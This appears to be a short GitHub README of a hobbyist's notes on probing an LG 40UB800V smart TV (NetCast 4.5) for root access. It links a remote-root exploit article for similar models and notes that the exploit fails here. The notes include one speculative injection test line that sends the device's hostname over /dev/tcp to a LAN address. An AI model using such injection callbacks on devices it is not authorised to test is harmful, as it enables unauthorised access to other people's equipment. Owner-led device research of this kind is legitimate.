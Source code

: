 # lg-40ub800v
Exploring NetCast4.5 on lg 40ub800v

Exploit of a similar model:

https://www.encrypted.at/remote-root-shell-on-lg-tv-2013-netcast-models/

Service Remote IR File:

https://github.com/logickworkshop/Flipper-IRDB/blob/main/TVs/LG/LG_MKJ39170828_Service.ir

Charriot Endpoint is startable

Exploit from article above does not work

Thought about something like this:



Serial adapter(?):

you can connect a PL2303-based USB/serial adapter
although it may require specific VID/PID (aten UC232)

Testing TCP Connections?

Maybe this works?

```
"Hi from LGTV at $(uname -n)" 2>/dev/null > /dev/tcp/192.168.178.123/8989"
```

LG Opensource about a similar model with NetCast4.5

https://opensource.lge.com/product/list?page=&keyword=netcast4.5&schType=

(Click on the Notice Icon)
